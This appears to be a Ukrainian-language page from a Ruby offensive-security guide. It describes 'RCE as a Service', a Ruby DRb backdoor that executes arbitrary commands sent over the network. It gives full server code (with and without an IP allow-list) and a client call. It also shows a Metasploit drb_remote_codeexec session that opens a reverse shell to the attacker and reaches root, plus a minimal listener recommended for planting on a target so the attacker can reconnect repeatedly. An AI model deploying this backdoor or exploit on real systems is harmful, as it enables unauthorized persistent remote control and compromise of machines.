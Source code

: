 # RCE as a Сервіс
Модуль DRb(розподілена система об'єктів в Рубі) дозволяє Рубі програмам спілкуватися одна з одною на локальній машині чи через мережу. DRb використовує віддалений метод виклику(RMI) щоб передавати команди та данні між процесами..

## RCE Сервіс 
```ruby
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join
```
Примітка: Це працюватиме в будь-якій операційній системі.

Бібліотека `drb` підтримує ACL(Access Control List - список контролю доступу) для дозволу чи заборони окремих IP адрес. Наприклад:

```ruby
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

# Access List
acl = ACL.new(%w{deny all
                allow localhost
                allow 192.168.1.*})
DRb.install_acl(acl)
DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join
```


## Клієнт 

```ruby
rshell = DRbObject.new_with_uri("druby://192.168.0.13:8080")
puts rshell.exec "id"
```

Або ж ви можете використовувати модуль з Metasploit щоб отримати елегантний шел.

```bash
msf > use exploit/linux/misc/drb_remote_codeexec 
msf exploit(drb_remote_codeexec) > set URI druby://192.168.0.13:8080
uri => druby://192.168.0.13:8080
msf exploit(drb_remote_codeexec) > exploit 

[*] Started reverse double handler
[*] trying to exploit instance_eval
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo UAR3ld0Uqnc03yNy;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "UAR3ld0Uqnc03yNy\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (192.168.0.18:4444 -> 192.168.0.13:57811) at 2015-12-24 01:11:30 +0300

pwd
/root
id
uid=0(root) gid=0(root) groups=0(root)
```

Як бачите, навіть після втрати сесії залишається можливість підключатися знов і знов: це ж сервіс, пам'ятаєте? 

Примітка: Для використання тільки модуля Metasploit вам навіть не потрібен клас RShell. Вам лише потрібно наступне на атакованій машині:.

```ruby
#!/usr/bin/env ruby
require 'drb'
DRb.start_service("druby://0.0.0.0:8080", []).thread.join
```

Я рекомендую використовувати перший приклад якщо Metasploit не встановлено або він недоступний.

До прочитання [Технічні деталі](http://blog.recurity-labs.com/archives/2011/05/12/druby_for_penetration_testers/) про модуль "drb_remote_codeexe" з пакету Metasploit.